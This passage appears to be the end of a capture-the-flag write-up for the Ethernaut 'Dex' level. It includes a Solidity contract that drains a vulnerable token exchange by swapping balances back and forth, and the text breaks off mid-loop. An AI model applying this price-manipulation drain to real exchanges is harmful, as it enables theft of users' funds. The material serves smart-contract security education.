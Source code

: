Then, we won the level!!! We just need to "Submit Instance" :)

![Well done](/assets/img/ethernaut_solved.png)

I've also written a solution for this level but automated by a contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Dex.sol";

contract Solver {
    Dex dex;
    address token1;
    address token2;

    constructor(address _dexAddress) {
        dex = Dex(_dexAddress);
        token1 = dex.token1();
        token2 = dex.token2();
        dex.approve(address(dex), 1000);
    }

    function solve() public {
        uint balanceToken1 = dex.balanceOf(token1, address(this));
        uint balanceToken2 = dex.balanceOf(token2, address(this));
        uint dexBalanceToken1 = dex.balanceOf(token1, address(dex));
        uint dexBalanceToken2 = dex.balanceOf(token2, address(dex));

        while ( balanceToken1 < dexBalanceToken1 && balanceToken2 < dexBalanceToken2 ) {
            if ( balanceToken1 > 0 ) {
                dex.swap(token1, token2, balanceToken1);
                balanceToken1 = 0;
                balanceToken2 = dex.balanceOf(token2, address(this));
            } else {
                dex.swap(token2, token1, balanceToken2);
                balanceToken1 = dex.balanceOf(token1, address(this));
                balanceToken2 = 0;
```